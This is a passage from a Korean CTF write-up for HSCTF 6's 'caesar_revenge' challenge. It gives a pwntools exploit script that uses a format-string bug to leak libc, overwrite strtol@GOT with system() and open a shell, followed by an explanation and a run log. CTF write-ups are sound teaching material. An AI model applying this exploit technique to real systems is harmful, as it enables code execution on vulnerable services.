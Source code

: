 ```python
p.sendlineafter("encoded: ", payload)
p.sendlineafter("shift: ", "26")

# libc leak
payload = "%25$s".ljust(8, ' ')
payload += p64(addr_strtol_got)

p.sendlineafter("encoded: ", payload)
p.sendlineafter("shift: ", "26")

p.recvuntil("Result: ")
addr_strtol = u64(p.recv(6).ljust(8, '\x00')) # address of strtol()
log.info("address of strtol(): " + hex(addr_strtol) + ", " + str(addr_strtol))
addr_libc = addr_strtol - offset_strtol # address of libc base
log.info("address of libc base: " + hex(addr_libc) + ", " + str(addr_libc))
addr_system = addr_libc + offset_system # address of system()
log.info("address of system(): " + hex(addr_system) + ", " + str(addr_system))

addr_system_first = addr_system & 0xffff
addr_system_second = (addr_system & 0xffff0000) >> 16

# strtol@GOT -> system()
payload = "%" + str(addr_system_first) + "x%28$hn"
payload += "%" + str(addr_system_second + 0x10000 - addr_system_first) + "x%29$hn"
payload = payload.ljust(32, ' ')
payload += p64(addr_strtol_got)
payload += p64(addr_strtol_got + 2)

p.sendlineafter("encoded: ", payload)
p.recvuntil("shift: ")
pause()
p.sendline("26")

p.interactive()
```

`addr_system_first`는 `addr_system`의 뒤 2바이트이고, `addr_system_second`는 중간 2바이트가 된다. 이때 유의해야 할 것은 두 번째 `%hn`이 앞의 `addr_system_first`만큼의 출력도 포함하여 개수를 센다는 것이다. 그래서 `addr_system_second`에서 `addr_system_first`를 빼 주어야 한다. 그런데 음수가 될 수 있기 때문에 `0x10000`을 더해 주었다. `%hn`은 그 전까지의 출력이 `0xffff`보다 크면 하위 2바이트만을 적기 때문에 `0x10000`을 더하는 것은 결과에 나쁜 영향을 미치지 않는다.

위에서처럼 `pause()`가 걸린 상태에서 `printf()`가 실행되기 전후의 메모리를 비교해 보자.

```bash
chykor12@ubuntu:~/HSCTF 6$ python exploit_caesar_revenge.py
[*] '/home/chykor12/HSCTF 6/caesar_revenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './caesar_revenge': pid 2895
[*] address of strtol(): 0x7fcd471c2110, 140519638049040
[*] address of libc base: 0x7fcd4717d000, 140519637766144
[*] address of system(): 0x7fcd471cc440, 140519638090816
[*] Paused (press any to continue)
[*] Switching to interactive mode
Result: $
```
